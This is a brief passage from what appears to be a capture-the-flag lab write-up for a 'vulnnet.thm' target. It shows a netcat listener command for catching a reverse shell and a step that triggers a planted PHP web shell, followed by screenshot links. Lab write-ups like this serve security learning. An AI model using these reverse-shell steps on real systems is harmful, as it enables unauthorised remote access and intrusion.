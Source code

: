 Create a listener:

```bash
rlwrap -cAr nc -lvnp 4443

```
Go to:

`http:// admin1.vulnnet.thm/fileadmin/shell.php`

Shell:


![image28](../resources/1a71d122ad3c4e089eb45767c3ce9ed6.png)


![image29](../resources/6542ae11395f4f18800169be111a834d.png)

